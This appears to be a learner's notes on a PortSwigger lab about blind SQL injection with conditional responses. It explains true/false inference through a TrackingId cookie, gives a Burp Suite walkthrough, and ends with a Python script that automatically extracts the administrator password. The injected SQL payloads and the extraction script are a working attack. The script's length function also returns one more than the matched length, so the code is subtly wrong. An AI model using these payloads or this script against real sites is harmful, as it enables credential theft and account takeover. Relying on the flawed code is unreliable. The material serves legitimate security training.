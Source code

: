 # Blind SQLi with conditional responses
---
Consider an application that uses tracking cookies to gather analytics about usage.
Requests to the application include a cookie header like this:
```js
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

When a request containing a `TrackingId` cookie is processed, the application determines whether this is a known user using a SQL query like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

- This query is vulnerable to SQLi, but the results from the query are not returned to the user.
- However, the application does behave differently depending on whether the query returns any data.
- If it returns data (_because a recognized `TrackingId` was submitted_), then a "Welcome back" message is displayed within the page.

This behavior is enough to be able to exploit the blind SQLi vulnerability and retrieve information by triggering different responses conditionally, depending on an injected condition.
To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
```
…xyz' AND '1'='1 
…xyz' AND '1'='2
```
- The _first_ of these _values_ will cause the query to return results, because the injected `AND '1'='1` condition is _true_, and so the "Welcome back" message will be displayed. 
- Whereas the _second value_ will cause the query to not return any results, because the injected condition is _false_, and so the "Welcome back" message will not be displayed.
This allows us to determine the answer to any single injected condition, and so extract data one bit at a time.

**For example**, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`.
We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time.
To do this, we start with the following input:
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

Next, we send the following input:
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
We can continue this process to systematically determine the full password for the `Administrator` user.

>[!note]
>The `SUBSTRING` function is called `SUBSTR` on some types of database.
>For more details, see the [SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# Lab: Blind SQL injection with conditional responses
---
1.  Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`.
2.  Modify the `TrackingId` cookie, changing it to:
    - `TrackingId=xyz' AND '1'='1`
    - Verify that the "Welcome back" message appears in the response.
3.  Now change it to:
    - `TrackingId=xyz' AND '1'='2`
    - Verify that the "Welcome back" message does not appear in the response. 
    - This demonstrates how you can test a single boolean condition and infer the result.
4.  Now change it to:
    - `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`
    - Verify that the condition is true, confirming that there is a table called `users`.
5.  Now change it to: 
    - `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
    - Verify that the condition is true, confirming that there is a user called `administrator`.
6.  The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:
    - `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
    - This condition should be true, confirming that the password is greater than 1 character in length.
7.  Send a series of follow-up values to test different password lengths. Send:
    - `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`
    - Then send:
    - `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`
    - And so on. 
    - You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. 
    - When the condition stops being true (_i.e. when the "Welcome back" message disappears_), you have determined the length of the password, which is in fact 20 characters long.
8. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Send the request you are working on to Burp Intruder, using the context menu.
9. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
10. In the Positions tab, change the value of the cookie to:
    - `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
    - This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. 
    - Our attack will cycle through each position and possible value, testing each one in turn.
11.  Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
    - `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
12.  To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under **Payload settings** add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
13.  To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the **Settings** tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".
14.  Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
15.  Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.
16.  Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:
    - `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a`
17.  Launch the modified attack, review the results, and note the character at the second offset.
18.  Continue this process testing offset 3, 4, and so on, until you have the whole password.
19.  In the browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.

```python
#!/usr/bin/env python3
# Blind SQL injection with conditional responses
import requests
import string
import sys

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def get_password(url, cookie, session, number):
    admin_passwd = list()
    for iteration in range(1,number+1):
        for character in string.printable:
            payload = f"' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), {iteration}, 1) = '{character}"
            c = {'TrackingId':f'{cookie}{payload}', 'session':f'{session}'}
            req = requests.get(url, cookies=c, verify=False, proxies=p)
            if "Welcome back" in req.text:
                admin_passwd.append(character)
                break
            #print(f"[-] Trying={''.join(admin_passwd) + character}")
            x = ''.join(admin_passwd) + character
            sys.stdout.write('\r' + x)
            sys.stdout.flush()

def get_length(url, cookie, session):
    for i in range(1,100):
        payload = f"' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)={i})='a"
        c = {'TrackingId':f'{cookie}{payload}', 'session':f'{session}'}
        req = requests.get(url, cookies=c, verify=False, proxies=p)
        if "Welcome" in req.text:
            return i+1
        i = i+1
    return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        cookie = sys.argv[2].strip()
        session = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <cookie_value> <session_value>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com abcdef123 abcdef123".format(sys.argv[0]))
        sys.exit(1)

    print("[-] Finding the password length...")
    passwd_length = get_length(url, cookie, session)
    if passwd_length:
        print("[-] Found the password length... [{}]".format(passwd_length))
        print("[-] Retrieving administrator password...")
        get_password(url, cookie, session, passwd_length)
    else:
        print("[-] Can't find the password length!")
```